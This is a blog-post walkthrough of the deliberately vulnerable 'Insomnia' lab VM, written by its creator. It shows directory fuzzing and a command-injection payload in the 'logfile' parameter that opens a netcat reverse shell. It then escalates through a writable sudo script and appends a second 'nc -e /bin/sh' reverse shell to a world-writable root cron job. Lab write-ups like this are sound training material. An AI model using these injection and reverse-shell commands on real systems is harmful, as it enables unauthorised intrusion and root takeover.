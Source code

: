 ```yaml
---
layout: post
title:  "Case Study : Insomnia"
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/insomnia-1,644/`

- Also to HackMyVm `https://hackmyvm.eu/machines/machine.php?vm=Insomnia`

- Difficulty : easy

##  Youtube Video

<iframe width="700" height="415" src="https://www.youtube.com/embed/aSEaIK8kWD8" frameborder="0" allowfullscreen></iframe>

## Directory Scan

{% highlight sh %}
  dirb http://10.0.2.114:8080/ -X .php,.txt

  + http://10.0.2.114:8080/administration.php (CODE:200|SIZE:65)                                                   
  + http://10.0.2.114:8080/chat.txt (CODE:200|SIZE:1)                                                              
  + http://10.0.2.114:8080/index.php (CODE:200|SIZE:2899)                                                          
  + http://10.0.2.114:8080/process.php (CODE:200|SIZE:2)  
{% endhighlight %}

## Find GET parameter

```sh
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 65 'http://10.0.2.114:8080/administration.php?FUZZ=test'

"logfile" 
```

## Reverse shell

```sh
http://10.0.2.114:8080/administration.php?logfile=chat.txt;nc -e /bin/sh 10.0.2.15 4444
```

- My machine

{% highlight sh %}
  nc -lvp 4444
  www-data@insomnia:~$ cd /home/julia
  www-data@insomnia:~$ cat user.txt
{% endhighlight %}

## Priv Esc to Julia

{% highlight sh %}
  www-data@insomnia:~/julia$ sudo -l
  (julia) NOPASSWD: /bin/bash /var/www/html/start.sh

  www-data@insomnia:~$ cd /var/www/html

  www-data@insomnia:/var/www/html$ ls -la | grep start.sh
  -rwxrwxrwx 1 root     root       20 Dec 21 04:18 start.sh

  www-data@insomnia:/var/www/html$ cat start.sh
  cat start.sh
  php -S 0.0.0.0:8080
{% endhighlight %}

#### Edit start.sh

{% highlight sh %}
  www-data@insomnia:/var/www/html$ cat start.sh
  cat start.sh
  php -S 0.0.0.0:8080

  www-data@insomnia:/var/www/html$ echo "/bin/bash" > start.sh

  www-data@insomnia:/var/www/html$ sudo -u julia /bin/bash /var/www/html/start.sh

  julia@insomnia:/var/www/html$ id
  id
  uid=1000(julia) gid=1000(julia) groups=1000(julia)
{% endhighlight %}

## cat /etc/crontab

{% highlight sh %}
  julia@insomnia:~$ cat /etc/crontab
  # Example of job definition:
  # .---------------- minute (0 - 59)
  # |  .------------- hour (0 - 23)
  # |  |  .---------- day of month (1 - 31)
  # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
  # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
  # |  |  |  |  |
  # *  *  *  *  * user-name command to be executed
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  *  *    * * *   root    /bin/bash /var/cron/check.sh

  julia@insomnia:~$ cd /var/cron
  cd /var/cron
  julia@insomnia:/var/cron$ ls -la | grep check.sh
  ls -la | grep check.sh
  -rwxrwxrwx  1 root root  153 Dec 21 04:17 check.sh
{% endhighlight %}

## Target machine

- check.sh is writable, edit `check.sh`

{% highlight sh %}
  julia@insomnia:/var/cron$ echo "nc -e /bin/sh 10.0.2.15 5555" >> check.sh
{% endhighlight %}

## My machine, wait a little bit

{% highlight sh %}
nc -lvp 5555
listening on [any] 5555 ...
connect to [10.0.2.15] from 10.0.2.114 [10.0.2.114] 40348
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

- This vm created by me, i enjoyed the process
